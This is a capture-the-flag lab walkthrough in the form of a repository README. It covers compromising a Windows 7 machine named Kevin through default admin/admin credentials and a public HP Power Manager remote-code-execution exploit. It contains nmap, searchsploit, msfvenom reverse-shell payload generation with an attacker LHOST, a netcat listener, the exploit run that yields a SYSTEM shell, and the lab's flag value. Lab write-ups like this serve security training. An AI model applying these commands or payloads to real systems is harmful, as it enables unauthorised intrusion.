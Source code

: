 # Kevin - Windows 7 Exploitation Walkthrough

This repository documents the exploitation process of the **Kevin** lab machine running Windows 7 Ultimate. The objective was to perform a full system compromise through enumeration, exploitation, and privilege escalation, ultimately retrieving the Administrator flag.

## 🧠 Target Overview

- **IP Address:** 192.168.232.45
- **Operating System:** Windows 7 Ultimate N (Build 7600)
- **Hostname:** KEVIN
- **Workgroup:** WORKGROUP

## 🔍 Initial Reconnaissance

### Nmap Scan

```bash
nmap -T4 -A 192.168.232.45 -oN nmap

Key Open Ports:
80/tcp: GoAhead WebServer - HP Power Manager interface
135/tcp: Microsoft Windows RPC
139, 445/tcp: SMB services
3389/tcp: RDP enabled
49152–49159/tcp: MSRPC dynamic ports

🌐 Web Application Enumeration
Accessed HTTP service on port 80: HP Power Manager login interface

Default credentials worked:
pgsql
Copy
Edit
-Username: admin
-Password: admin

🚨 Exploitation
Vulnerability Identified
The HP Power Manager application is vulnerable to Remote Code Execution.

Exploit found via searchsploit:
bash
Copy
Edit
searchsploit HP Power Manager
searchsploit -m 10099.py
Reverse Shell Payload Generation

Used msfvenom to create a reverse shell payload avoiding known bad characters:
bash
Copy
Edit
msfvenom -p windows/shell_reverse_tcp \
  LHOST=192.168.45.158 LPORT=80 \
  -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" \
  -e x86/alpha_mixed -f c
Payload inserted into the SHELL variable inside the exploit code (10099.py)

Listener started with:

bash
Copy
Edit
rlwrap nc -nlvp 80
Gaining Shell Access
Exploit executed:

bash
Copy
Edit
python2.7 10099.py 192.168.232.45
Reverse shell received as NT AUTHORITY\SYSTEM

🧾 Flag
Navigated to C:\Users\Administrator\Desktop and retrieved:

makefile
Copy
Edit
Flag: f9267403b0baf51ae5c66c6d55fd72de

🧰 Tools Used
-nmap
-searchsploit
-msfvenom
-python2.7
-netcat (nc)
-rlwrap

✅ Summary
Weak authentication on a vulnerable web application allowed full system compromise.
Default credentials and known exploit code were sufficient for privilege escalation.
Full administrative access was gained through RCE, and the flag was captured.

Author: Farhanahmad Quraishi
